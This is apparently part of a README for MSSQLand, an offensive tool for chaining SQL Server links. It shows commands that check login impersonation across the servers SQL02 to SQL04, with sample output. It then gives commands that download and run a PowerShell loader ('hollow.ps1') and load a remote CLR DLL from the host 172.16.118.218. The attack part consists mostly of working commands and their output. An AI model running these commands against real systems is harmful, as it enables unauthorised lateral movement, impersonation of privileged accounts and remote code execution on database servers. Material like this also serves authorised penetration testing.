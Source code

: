 Now you want to verify who you can impersonate at the end of the chain:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04 /a:impersonate
```
The output shows:

```txt
[>] Trying to connect with TokenCredentials
[+] Connection opened successfully
|-> Server: localhost,1433
|-> Database: master
|-> Server Version: 15.00.2000
|-> Client Workstation ID: WS-445c74
|-> Client Connection ID: b7c172a7-c349-4268-a466-285d2af89fbb
[i] Logged in on SQL01 as NT AUTHORITY\SYSTEM
|-> Mapped to the user dbo
[i] You can impersonate anyone as a sysadmin
[+] Successfully impersonated user: webapp02
[i] Server chain: SQL02 -> SQL03 -> SQL04
[i] Logged in as webapps
|-> Mapped to the user guest

[>] Executing action 'Impersonation' against SQL04
|-> Starting impersonation check for all logins
|-> Checking impersonation permissions individually

| Logins      | Impersonation |
| ----------- | ------------- |
| sa          | No            |
| MarieJo     | Yes           |
| Imane       | Yes           |
| John        | No            |
```

Great! Now you can directly reach out to your loader with:
```shell
.\MSSQLand.exe /h:localhost:webapp02 /c:token /l:SQL02:webapp03,SQL03:webapp04,SQL04:MarieJo /a:pwshdl "172.16.118.218/d/g/hollow.ps1"
```

Or even use Common Language Runtime (CLR) to load remotely a library with:
```txt
/a:clr \"http://172.16.118.218/d/SqlLibrary.dll\"
```

## Options and Features ⚙️

### Too Much Output?
Use the `/silent` switch for a streamlined experience. It minimizes output, showing only the action results, making it particularly useful for some engagements where less is more.

## Project Structure 📚
This project follows several key software development principles and practices.
